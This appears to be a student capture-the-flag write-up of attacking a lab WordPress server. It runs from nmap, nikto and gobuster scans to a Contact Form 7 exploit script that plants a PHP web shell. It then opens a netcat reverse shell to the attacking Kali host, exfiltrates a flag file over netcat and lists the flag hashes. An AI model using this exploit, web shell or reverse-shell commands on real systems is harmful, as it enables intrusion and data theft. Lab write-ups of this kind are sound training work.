 # Attacking Target 2

## Table of Contents
- [Discovering Vulnerabilities](#discovering-vulnerabilities)
- [Exploiting Discovered Vulnerability](#exploiting-discovered-vulnerability)
- [Flags](#flags)

### Discovering Vulnerabilities

- `nmap` scan
  - An nmap scan presented all abvailable ports.
    - Port 22 (SSH)
    - Port 80 (HTTP)
    - Port 111 (rpcbind)
    - Port 139 (netbios-ssn)
    - Port 445 (netbios-ssn)
  - `nmap -sS -sV 192.168.1.115`
- ![nmapscan](./Images/Target2/nmap%20scan%20target2.JPG)

- `nikto` scan
  - A nikto scan revealed all dangerous files/CGIs, outdated server software and other problems.
- ![niktoscan](./Images/Target2/nikto%20results.JPG)

- `gobuster` scan
  - A gobuster scan brute-forced all available URI's and DNS subdomains.
- ![gobusterscan](./Images/Target2/gobuster%20scan.JPG)

### Exploiting Discovered Vulnerability

-  A Contact Form 7 vulnerability was found.
  - This allowed an `exploit.sh` bash script to be run that allowed a `backdoor.php` file to be uploaded to the WordPress directory of the server.
```bash
#!/bin/bash
# Lovingly borrowed from: https://github.com/coding-boot-camp/cybersecurity-v2/new/master/1-Lesson-Plans/24-Final-Project/Activities/Day-1/Unsolved

TARGET=http://192.168.1.15/contact.php

DOCROOT=/var/www/html
FILENAME=backdoor.php
LOCATION=$DOCROOT/$FILENAME

STATUS=$(curl -s \
              --data-urlencode "name=Hackerman" \
              --data-urlencode "email=\"hackerman\\\" -oQ/tmp -X$LOCATION blah\"@badguy.com" \
              --data-urlencode "message=<?php echo shell_exec(\$_GET['cmd']); ?>" \
              --data-urlencode "action=submit" \
              $TARGET | sed -r '146!d')

if grep 'instantiate' &>/dev/null <<<"$STATUS"; then
  echo "[+] Check ${LOCATION}?cmd=[shell command, e.g. id]"
else
  echo "[!] Exploit failed"
fi
```

- The `backdoor.php` file allowed for execution of command injection attacks on the target website.
  - `http://<Target 2 URL>/backdoor.php?cmd=<CMD>` can now be run in the Kali browser that uses `backdoor.php` to open a shell session on the target.
  - `nc -lnvp 4444` was used on the Kali terminal to open a listening port on port `4444`.
  - On the Kali browser `http://<Target 2 URL>/backdoor.php?cmd=nc%20<Kali IP>%204444%20-e%20/bin/bash` was used and a shell session was obtained on the target.
- ![shellsession](./Images/Target2/shell%20session.JPG)

### Flags

- `flag1.txt`: `a2c1f66d2b8051bd3a5874b5b6e43e21`
  - **Exploit Used**
    - Discovery of website directory listing.
    - After running a `gobuster` scan, the directory listing was found for the target and the flag was found at `http://192.168.1.115/vendor/PATH`
  - Commands run:
    - `gobuster -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt dir -u http://192.168.1.115`
    - `http://192.168.1.115/vendor/PATH` (In Kali web browser.)
- ![flag1](./Images/Target2/flag1.JPG)

- `flag2.txt`: `6a8ed560f0b5358ecf844108048eb337`
  - **Exploit Used**
    - Contact Form 7 vulnerability.
    - The `exploit.sh` script was run and installed a `backdoor.php` file on the target WordPress server that allowed a shell session on the target and the flag was found in `/var/www/flag2.txt`.
  - Commands run:
    - `bash ./exploit.sh`
    - `nc -lnvp 4444`
    - `http://<Target 2 URL>/backdoor.php?cmd=nc%20<Kali IP>%204444%20-e%20/bin/bash' (In Kali web browser.)
    - `cd /var/www`
    - `cat flag2.txt`
- ![flag2](./Images/Target2/flag2.JPG)

- `flag3.png`: `a0f568aa9de277887f37730d71520d9b`
  - **Exploit Used**
    - Contact Form 7 vulnerability.
    - The `exploit.sh` script was run and installed a `backdoor.php` file on the target WordPress server that allowed a shell session on the target and the flag was found in `/var/www/html/wordpress/wp-content/uploads/2018/11/flag3.png`.
    - Netcat was used to exfiltrate the file to the attacking machine.
  - Commands run:
    - `bash ./exploit.sh`
    - `nc -lnvp 4444`
    - `http://<Target 2 URL>/backdoor.php?cmd=nc%20<Kali IP>%204444%20-e%20/bin/bash` (In Kali web browser.)
    - `find /var/www -type f -iname 'flag*'`
    - `nc -l -p 4444 > flag3.png` (recieving)
    - `cat flag3.png | netcat 192.168.1.90 4444` (sending)
- ![flag3](./Images/Target2/flag3.JPG)
